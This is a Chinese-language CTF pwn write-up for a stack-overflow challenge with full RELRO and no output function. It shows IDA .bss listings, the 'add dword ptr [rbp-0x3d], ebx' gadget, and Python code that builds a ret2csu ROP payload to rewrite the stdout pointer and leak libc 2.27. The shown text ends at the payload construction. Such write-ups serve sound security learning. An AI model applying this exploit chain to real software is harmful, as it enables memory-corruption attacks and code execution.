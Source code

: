 没有输出函数，开启了 full relro，只有一个孤零零的栈溢出

这样似乎陷入了一个困境，没有输出函数就无法泄露 libc 地址，full relro 又无法利用 ret2dlsolve，这对于一些 pwn 栈漏洞知识掌握不深的师傅（没错就是我）似乎就没办法进行攻击了，后来经过其他师傅提醒到了这个 magic\_gadget

#### 利用思路

虽然 got 表是不可写了，但是并不意味着其他地方就不储存函数地址了，比如在 bss 段上就储存了一些地址

```plain
bss:0000000000601020                               public stdout@@GLIBC_2_2_5
.bss:0000000000601020                               ; FILE *stdout
.bss:0000000000601020 ?? ?? ?? ?? ?? ?? ?? ??       stdout@@GLIBC_2_2_5 dq ?                ; DATA XREF: LOAD:00000000004003C8↑o
.bss:0000000000601020                                                                       ; main+46↑r
.bss:0000000000601020                                                                       ; Alternative name is 'stdout'
.bss:0000000000601020                                                                       ; Copy of shared data
.bss:0000000000601028 ?? ?? ?? ?? ?? ?? ?? ??       align 10h
.bss:0000000000601030                               public stdin@@GLIBC_2_2_5
.bss:0000000000601030                               ; FILE *stdin
.bss:0000000000601030 ?? ?? ?? ?? ?? ?? ?? ??       stdin@@GLIBC_2_2_5 dq ?                 ; DATA XREF: LOAD:0000000000400410↑o
.bss:0000000000601030                                                                       ; main+28↑r
.bss:0000000000601030                                                                       ; Alternative name is 'stdin'
```

还有 gadget

```plain
0x00000000004007e8 : add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
```

那么我们的思路就是利用 ret2csu 和 magic\_gadget 将 stdout 改成一个输出函数的地址进行调用就可以泄露 libc 了

题目给了 libc 版本为 2.27，可以利用 libc 文件查找相对偏移

构造如下

```plain
def csu(rbx, rbp, r12, r15, r14, r13, last):
    # pop rbx,rbp,r12,r13,r14,r15
    # rbx should be 0,
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call()
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    # csu(0, 1, fun_got, rdx, rsi, rdi, last)
​    payload = ""
​    payload += p64(csu_end_addr) 
​    payload += p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
​    payload += p64(csu_front_addr)
​    payload += p64(0)+p64(0xffffffffffd24620-0xd80+0xf0)+p64(0x601020+0x3d)+p64(read_got)*4
​    payload += p64(last)   
​    return payload

pl=p64(read_got)*8+p64(bss)
pl+=csu(0, 1, read_got, 0x100, elf.bss()+0x100, 0,magic_gadget)+p64(0x400788)+p64(elf.bss()+0x300)+p64(0x4008DC)
```
